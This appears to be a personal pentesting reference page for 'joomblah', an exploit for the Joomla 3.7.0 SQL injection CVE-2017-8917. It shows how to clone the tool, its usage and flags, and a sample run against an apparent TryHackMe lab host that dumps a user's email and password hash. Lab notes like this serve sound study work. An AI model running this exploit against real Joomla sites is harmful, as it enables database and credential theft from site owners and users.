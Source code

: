 ```yaml
---
title : "CVE-2017-8917"
# pre : ' '
description : "SQL injection Vulnerability in Joomla! 3.7.0 exploit aka joomblah."
date : 2021-06-18T19:30:01+02:00
# hidden : true
# draft : true
weight : 100
# tags : ['']
---
```


---

## SQL injection Vulnerability in Joomla! 3.7.0 exploit aka joomblah

## Installation

{{%resources fa_icon_class="far fa-file-code" pattern=".*(py)"/%}}

```plain
git clone https://github.com/stefanlucas/Exploit-Joomla.git
```

## Usage

```plain
joomblah.py [-h] url
```

## Flags

```plain
Jooma Exploit

positional arguments:
  url         Base URL for Joomla site

optional arguments:
  -h, --help  show this help message and exit
```

## Examples

```plain
$ python joomblah.py http://10.10.181.117/
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

## URL List

- [Github.com - Exploit-Joomla](https://github.com/stefanlucas/Exploit-Joomla)

